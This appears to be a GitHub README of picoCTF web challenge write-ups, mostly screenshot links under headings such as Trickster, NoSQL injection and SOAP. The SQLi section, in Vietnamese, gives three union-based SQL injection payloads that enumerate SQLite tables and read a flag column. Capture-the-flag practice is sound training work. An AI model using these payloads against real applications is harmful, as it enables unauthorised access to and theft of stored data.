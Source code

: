 # Pico

# 3v@l

![Screenshot 2025-05-06 145459](https://github.com/user-attachments/assets/7341be37-c7dd-452b-9bd5-c16d7c1f9255)

![Screenshot 2025-05-06 145355](https://github.com/user-attachments/assets/c7c3347d-3de3-472a-8d19-29883e1888e6)


# Trickster

![Screenshot 2025-05-06 155332](https://github.com/user-attachments/assets/b1b381bd-837e-408d-be81-cd3efdeac7fe)

![Screenshot 2025-05-06 155403](https://github.com/user-attachments/assets/6f13e065-7c1f-4f66-ab63-f8b5fc0fa6da)

![Screenshot 2025-05-06 155256](https://github.com/user-attachments/assets/ac5c313c-f361-458a-8539-4f0531317528)

![Screenshot 2025-05-06 155535](https://github.com/user-attachments/assets/cf092a89-0610-4e25-b710-7f2a8bd808de)

![Screenshot 2025-05-06 155628](https://github.com/user-attachments/assets/7bc6fb7c-7383-4ff6-a2ee-710ed70c4044)

![Screenshot 2025-05-06 155652](https://github.com/user-attachments/assets/51c486c3-f0db-4f08-b895-2663c972f65a)

![Screenshot 2025-05-06 160930](https://github.com/user-attachments/assets/5728cb41-4208-4af7-8109-5a9f1a6f889b)


# No Sql Injection
![Screenshot 2025-05-06 164913](https://github.com/user-attachments/assets/4b93f124-856c-4681-9027-c002a5ca2cfd)
Base64


# SOAP
![image](https://github.com/user-attachments/assets/66b72268-993f-4abe-a155-b48ce205c653)

![image](https://github.com/user-attachments/assets/e85f7fff-fa60-434e-bf56-02d3efab8184)


# SQLI

![image](https://github.com/user-attachments/assets/85cd66b8-317f-450f-8e67-07690551feda)

Lấy các bảng bằng payload như sau
>a' union select 1,name,3 from sqlite_master where type='table'-- -

![image](https://github.com/user-attachments/assets/f0cc536a-7494-4c2b-99e5-4c918f7ac6ef)

Kiểm tra bảng more_table

>a' union select 1,sql,3 from sqlite_master where name='more_table'-- -

KIểm tra cột flag trong bảng more_table

>a' union select flag,2,3 from more_table-- -

![image](https://github.com/user-attachments/assets/90e55f04-5245-4a7c-a5bf-c5ca3ee1a075)






